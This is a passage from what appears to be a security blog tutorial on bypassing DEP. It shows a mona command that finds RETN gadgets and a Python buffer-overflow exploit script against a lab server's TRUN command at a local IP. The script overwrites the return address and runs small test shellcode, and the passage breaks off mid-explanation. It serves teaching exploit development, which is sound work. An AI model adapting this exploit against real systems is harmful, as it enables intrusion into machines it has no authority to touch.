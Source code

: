 As we control the execution flow and write on the stack, we can do
whatever we want. Let’s find a `RETN` instruction:

``` bash
!mona find -type instr -s "retn" -p 10 -o
```

This will tell `mona` to find up to 10 `RETN` instructions. The result
is:

<div class="imgblock">

![RETN instructions](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/retn1_gtil26.webp)

</div>

Let’s take the first one at `62501022` and update the exploit of the
[previous post](../understanding-dep/). This time we want to make `EAX`
have the value `0xdeadbeef`:

``` python
#!/usr/bin/env python3
#
## Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And see what happens:

<div class="imgblock">

![RETN](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330677/blog/bypassing-dep/rop1_z13yrk.gif)

</div>

Here’s what happened:

1. We put a breakpoint at the address of the `RETN` instruction.
